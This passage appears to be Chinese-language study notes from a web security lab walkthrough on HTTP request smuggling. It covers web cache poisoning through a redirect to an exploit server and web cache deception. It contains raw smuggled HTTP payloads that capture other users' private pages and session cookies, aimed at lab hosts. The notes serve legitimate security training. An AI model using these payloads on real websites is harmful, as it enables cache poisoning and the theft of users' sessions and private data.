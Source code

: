 text/javascript file at /post 

```http
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: your-exploit-server-hostname.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1

GET /resources/js/tracking.js HTTP/1.1
Host: your-lab-id.web-security-academy.net
Connection: close
```

### perform web cache deception

web缓存中毒和web缓存欺骗之间有什么区别？

- 在web缓存中毒中，攻击者会导致应用程序在缓存中存储一些恶意内容，并将这些内容从缓存提供给其他应用程序用户。

- 在web缓存欺骗中，攻击者会使应用程序在缓存中**存储**属于其他用户的一些**敏感内容**，然后攻击者从缓存中**检索这些内容**。

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

转发到后端服务器的另一个用户的下一个请求将附加到走私请求中，包括会话cookie和其他头

```http
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
...
```

然后，攻击者访问静态URL并接收从缓存返回的敏感内容。

攻击者可能需要**获取大量静态URL来发现捕获的内容**。

lab：

```http
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
X-Ignore: X
```
